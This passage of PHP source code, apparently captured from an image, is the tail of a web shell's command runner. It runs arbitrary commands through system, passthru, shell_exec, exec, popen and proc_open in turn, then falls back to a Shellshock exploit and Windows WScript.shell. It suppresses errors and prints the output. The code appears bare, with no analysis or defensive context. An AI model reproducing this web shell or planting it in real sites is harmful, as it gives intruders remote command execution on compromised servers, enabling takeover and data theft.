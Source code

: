 ```php
                print($output);
                return True;
            }
        }
        return False;
    }
    
    function runcmd($c) {
        $ret = 0;
        $d = dirname($_SERVER["SCRIPT_FILENAME"]);
        
        if (fe('system')) {
            @system($c, $ret);
        } elseif (fe('passthru')) {
            @passthru($c, $ret);
        } elseif (fe('shell_exec')) {
            print(@shell_exec($c));
        } elseif (fe('exec')) {
            @exec($c, $o, $ret);
            print(join("\n", $o));
        } elseif (fe('popen')) {
            $fp = @popen($c, 'r');
            while (!@feof($fp)) {
                print(@fgets($fp, 2048));
            }
            @pclose($fp);
        } elseif (fe('proc_open')) {
            $p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);
            while (!@feof($io[1])) {
                print(@fgets($io[1], 2048));
            }
            while (!@feof($io[2])) {
                print(@fgets($io[2], 2048));
            }
            @fclose($io[1]);
            @fclose($io[2]);
            @proc_close($p);
        } elseif (runshellshock($d, $c)) {
            return $ret;
        } elseif (substr($d, 0, 1) != "/" && @class_exists("COM")) {
            $w = new COM('WScript.shell');
            $e = $w->exec($c);
            $so = $e->StdOut();
            $ret .= $so->ReadAll();
            $se = $e->StdErr();
            $ret .= $se->ReadAll();
            print($ret);
        } else {
            $ret = 127;
        }
        return $ret;
    }

    $ret = @runcmd($r . " 2>&1");
    print($ret != 0 ? "ret={$ret}" : "");
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
}
asoutput();
die();
?>
```
:::